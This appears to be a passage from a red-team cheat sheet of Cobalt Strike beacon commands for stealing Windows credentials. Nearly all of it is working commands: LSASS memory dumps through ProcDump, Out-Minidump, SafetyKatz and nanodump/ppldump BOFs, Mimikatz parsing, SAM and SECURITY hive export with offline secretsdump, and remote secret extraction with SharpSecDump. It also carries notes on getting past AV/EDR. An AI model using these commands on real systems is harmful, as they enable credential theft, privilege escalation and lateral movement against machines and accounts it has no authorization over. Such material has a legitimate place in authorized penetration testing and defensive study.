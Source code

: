 # Works against most updated systems with AV/EDR if running as SYSTEM
logonpasswords
```
Dumping LSASS with ProcDump.exe (requires touching disk) (NOTE: Might get flagged by AV and raise alerts but can still output LSASS dump file)
```
upload --> ProcDump.exe
run ProcDump.exe -accepteula -ma lsass.exe lsass.dmp
```
Dumping LSASS with [Out-Minidump.ps1 from PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) without touching disk
```
powershell Get-Process | Out-Minidump -DumpFilePath C:\temp
```
Extract LSASS process with [SafetyKatz](https://github.com/GhostPack/SafetyKatz)
```
execute-assembly C:\SafetyKatz.exe --> Dumps LSASS process to .dmp file on the local system
```
LSASS dump BOFs
```
minidumpwritedump --> https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump
nanodump --> https://github.com/fortra/nanodump
ppldump <YOUR_PROTECTED_PROCESS_PID> --> https://github.com/EspressoCake/PPLDump_BOF
static_syscalls_dump <PID> C:\Users\USER\Desktop\output.dmp --> https://github.com/ajpc500/BOFs/blob/main/StaticSyscallsDump/README.md
```
Extracting passwords/hashes offline from LSASS dump using Mimikatz (**ON YOUR OWN SYSTEM!**)
```
mimikatz.exe log "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords /all" "sekurlsa::wdigest" exit (Run on your local box)
```

### SAM database dump 

SAM dump built into CS - Injects into LSASS to dump local SAM database hashes to console
```
hashdump
```
SAM dump using reg.exe
```
run reg.exe save HKLM\sam sam.save
run reg.exe save HKLM\security security.save
run reg.exe save HKLM\system system.save

# Download SAM files then dump hahses offline using Secretsdump.py 
download sam.save
download security.save
download system.save
python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL (Run **ON YOUR OWN SYSTEM**)
```

### [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) SAM and LSA extraction
Remotely dump SAM and LSA secrets (same functionality as Impacket's secretsdump.py)
```
# Runs in the context of the current user
# Local Admin privileges is required on the target machine
execute-assembly C:\SharpSecDump.exe -target=192.168.1.15 -u=admin -p=Password123 -d=lab.local
```
```